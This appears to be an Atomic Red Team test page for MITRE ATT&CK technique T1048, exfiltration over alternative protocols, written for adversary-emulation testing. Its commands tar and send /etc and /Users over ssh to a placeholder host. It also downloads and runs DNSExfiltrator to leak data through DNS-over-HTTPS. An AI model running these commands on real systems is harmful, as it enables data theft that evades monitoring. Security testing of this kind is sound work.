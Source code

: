 # T1048 - Exfiltration Over Alternative Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048)
<blockquote>Adversaries may steal data by exfiltrating it over a different protocol than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server.  

Alternate protocols include FTP, SMTP, HTTP/S, DNS, SMB, or any other network protocol not being used as the main command and control channel. Adversaries may also opt to encrypt and/or obfuscate these alternate channels. 

[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048) can be done using various common operating system utilities such as [Net](https://attack.mitre.org/software/S0039)/SMB or FTP.(Citation: Palo Alto OilRig Oct 2016) On macOS and Linux <code>curl</code> may be used to invoke protocols such as HTTP/S or FTP/S to exfiltrate data from a system.(Citation: 20 macOS Common Tools and Techniques)

Many IaaS and SaaS platforms (such as Microsoft Exchange, Microsoft SharePoint, GitHub, and AWS S3) support the direct download of files, emails, source code, and other sensitive information via the web console or [Cloud API](https://attack.mitre.org/techniques/T1059/009).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-1---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-2---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #3 - DNSExfiltration (doh)](#atomic-test-3---dnsexfiltration-doh)


<br/>

## Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Remote to Local

Upon successful execution, sh will spawn ssh contacting a remote domain (default: target.example.com) writing a tar.gz file.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** f6786cc8-beda-4915-a4d6-ac2f193bb988





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Local to Remote

Upon successful execution, tar will compress /Users/* directory and password protect the file modification of `Users.tar.gz.enc` as output.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 7c3cb337-35ae-4d06-bf03-3032ed2ec268





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username for domain | string | atomic|
| password | password for user | string | atomic|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```






<br/>
<br/>

## Atomic Test #3 - DNSExfiltration (doh)
DNSExfiltrator allows for transfering (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.
!!! Test will fail without a domain under your control with A record and NS record !!! 
See this github page for more details - https://github.com/Arno0x/DNSExfiltrator

**Supported Platforms:** Windows


**auto_generated_guid:** c943d285-ada3-45ca-b3aa-7cd6500c6a48





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| password | Password used to encrypt the data to be exfiltrated | string | atomic|
| domain | The domain name to use for DNS requests | string | target.example.com|
| ps_module | DNSExfiltrator powershell ps_module | path | $env:Temp&#92;dnsexfil.ps1|
| doh | Google or CloudFlare DoH (DNS over HTTP) server | string | google|
| time | The time in milliseconds to wait between each DNS request | string | 500|
| encoding | Set to '-b32' to use base32 encoding of data. Might be required by some DNS resolvers. | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module #{ps_module}
Invoke-DNSExfiltrator -i #{ps_module} -d #{domain} -p #{password} -doh #{doh} -t #{time} #{encoding}
```




#### Dependencies:  Run with `powershell`!
##### Description: DNSExfiltrator powershell file must exist on disk at specified location (#{ps_module})
##### Check Prereq Commands:
```powershell
if (Test-Path #{ps_module}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
IWR "https://raw.githubusercontent.com/Arno0x/DNSExfiltrator/8faa972408b0384416fffd5b4d42a7aa00526ca8/Invoke-DNSExfiltrator.ps1" -OutFile #{ps_module}
```




<br/>
